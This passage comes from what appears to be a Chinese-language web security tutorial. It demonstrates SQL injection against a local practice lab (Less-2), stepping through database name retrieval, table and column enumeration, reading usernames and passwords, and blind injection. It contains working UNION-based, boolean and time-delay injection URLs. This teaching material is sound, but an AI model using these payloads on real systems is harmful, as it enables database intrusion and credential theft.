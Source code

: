 **（3）获取当前数据库名**

通过当前页面的功能，我们可以知道它当前的数据库会涉及哪些数据，比如当前是账号创建和登录的页面，数据库必然包含账号密码信息，我们就可以先获取当前数据库名，后面再用来读取数据库中的字段值。MySQL 提供的 database() 函数可用来获取数据库名，因此我们可以像下面这样构建 URL：

```
http://localhost/Less-2/?id=0 union select 1,2,database()
```

访问后我们得到当前数据库名为 security，接下来就可以去尝试读取该数据库内的内容。

**（4）枚举数据库中的表名**

通过以下语句获取存储账号密码的表名 users：

```
http://localhost/Less-2/?id=0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()
```

访问上述特意构造的链接后，页面返回以下内容：

![图片9.png](https://s0.lgstatic.com/i/image2/M01/04/8B/Cip5yF_y7_OAZnv_AAGOoagH4-c761.png)

图 9：数据库中的表名

**（5）枚举表中的字段名**

得到表名后，我们可以先看看有哪些字段名，为后面获取字段值做铺垫。由于表 information\_schema.columns 中包含字段列表信息，因此我们可以通过它获取每个字段的名称，构造以下 URL 获取：

访问后页面返回以下内容，得到表中的各个字段名：

![Drawing 9.png](https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y7yGAUF0ZAAAojuOFTVI874.png)

图 10：表中的字段名

**（6）获取字段值**

前面我们已经拿到字段名、表名，接下来就可以直接通过 select 读取相应字段的值，比如此处用来获取 username 和 password 的值的 URL 请求：

访问后页面返回各字段值：

![图片11.png](https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y7_uAa4SGAADxQK_Xy8o851.png)

图 11：各字段的值

**（7）盲注猜解字符串**

前面的示例都是在有错误回显的情况下，通过 SQL 注入获得我们想要的用户信息，但有时在渗透测试时，网站并没有错误回显，此时就只能去盲注猜解出数据库名、字段名和值等关键信息。盲注猜解字符串的主要方式有布尔型盲注和基于时间延迟盲注，相关的知识我在《06 | SQL 注入：小心数据库被拖走（上）》中介绍过了。

```
布尔型盲注：
http://localhost/Less-2/?id=1 and ascii(substr((select database()),1,1))>110
基于时间延迟盲注：
http://localhost/Less-2/?id=1 union select if(SUBSTRING(password,1,4)='Dumb',sleep(5),1),2,3 from users
```

### 自动化利用漏洞
